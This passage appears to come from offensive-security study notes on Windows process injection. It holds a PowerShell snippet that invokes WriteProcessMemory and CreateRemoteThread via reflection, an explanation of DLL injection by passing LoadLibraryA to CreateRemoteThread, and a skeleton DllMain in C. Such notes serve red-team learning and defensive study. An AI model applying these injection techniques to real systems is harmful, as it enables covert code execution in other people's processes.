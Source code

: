 ```pwsh
     
$outSize = 0
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory), (getDelegateType @([IntPtr], [IntPtr], [Byte[]], [Int32], [Int].MakeByRefType()) ([Bool]))).Invoke($hProcess, $addr, $buf, $buf.length, [ref] $outSize)
#[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WriteProcessMemory), (getDelegateType @([IntPtr], [IntPtr], [Byte[]], [Int32], [Int].MakeByRefType()) ([Bool]))).Invoke($hProcess, $addr, $buf, $buf.length, [ref] 0)
       
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateRemoteThread), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

## DLL Injection with C#

When a process needs to use an API from a DLL, it calls the `LoadLibrary` API to load it into virtual memory space.

`LoadLibrary` can **not** be invoked on a remote process.

=> Resolve the address of `LoadLibraryA` inside the remote process and invoke it while supplying the name of the DLL we want to load.

If the address of `LoadLibraryA` is given as the 4th argument to `CreateRemoteThread`, it will be invoked when we call `CreateRemoteThread`.

Several restrictions to consider:

1. The DLL must be written in C or C++ and must be **unmanaged** because we can not load a managed DLL into an unmanaged process.

2. DLLs normally contain APIs that are called after the DLL is loaded. To call these APIs, an application have to "resolve" their names to memory addresses through the use of `GetProcAddress`. `GetProcAddress` cannot resolve an API in a remote process.

`DllMain` function is called on module load.

```C
BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

The `DLL_PROCESS_ATTACH` reason code is passed to `DllMain` when the DLL is being loaded into the virtual memory address space as a result of a call to `LoadLibrary`.
